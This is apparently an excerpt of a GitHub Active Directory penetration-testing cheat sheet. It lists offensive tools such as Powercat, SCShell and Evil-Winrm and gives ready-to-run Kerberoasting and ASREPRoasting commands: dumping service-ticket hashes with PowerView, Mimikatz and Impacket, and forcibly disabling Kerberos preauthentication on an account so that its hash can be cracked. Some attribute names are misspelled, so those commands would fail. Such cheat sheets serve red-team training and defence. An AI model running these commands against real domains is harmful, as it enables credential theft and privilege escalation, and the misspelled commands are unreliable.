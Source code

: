 ### Useful Tools
- [Powercat](https://github.com/besimorhino/powercat) netcat written in powershell, and provides tunneling, relay and portforward 
  capabilities.
- [SCShell](https://github.com/Mr-Un1k0d3r/SCShell) fileless lateral movement tool that relies on ChangeServiceConfigA to run command
- [Evil-Winrm](https://github.com/Hackplayers/evil-winrm) the ultimate WinRM shell for hacking/pentesting

  
## Domain Privilege Escalation

### Kerberoast

  - PowerView:
  ```
  #Get User Accounts that are used as Service Accounts
  Get-NetUser -SPN
  
  #Get every available SPN account, request a TGS and dump its hash
  Invoke-Kerberoast
  
  #Requesting the TGS for a single account:
  Request-SPNTicket
    
  #Export all tickets using Mimikatz
  Invoke-Mimikatz -Command '"kerberos::list /export"'
  ```
  - AD Module:
  ```
  #Get User Accounts that are used as Service Accounts
  Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
  ```
  - Impacket:
  ```
  python GetUserSPNs.py <DomainName>/<DomainUser>:<Password> -outputfile <FileName>
  ```
### ASREPRoast
  - PowerView: `Get-DomainUser -PreauthNotRequired -Verbose`
  - AD Module: `Get-ADUser -Filter {DoesNoteRequirePreAuth -eq $True} -Properties DoesNoteRequirePreAuth`


  Forcefuly Disable Kerberos Preauth on an account i have Write Permissions or more!
  Check for interesting permissions on accounts:
  
  
  **Hint:** We add a filter e.g. RDPUsers to get "User Accounts" not Machine Accounts, because Machine Account hashes are not crackable!
  
  PowerView:
  ```
  Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentinyReferenceName -match "RDPUsers"}
  Disable Kerberos Preauth:
  Set-DomainObject -Identity <UserAccount> -XOR @{useraccountcontrol=4194304} -Verbose
  Check if the value changed:
  Get-DomainUser -PreauthNotRequired -Verbose
  ```
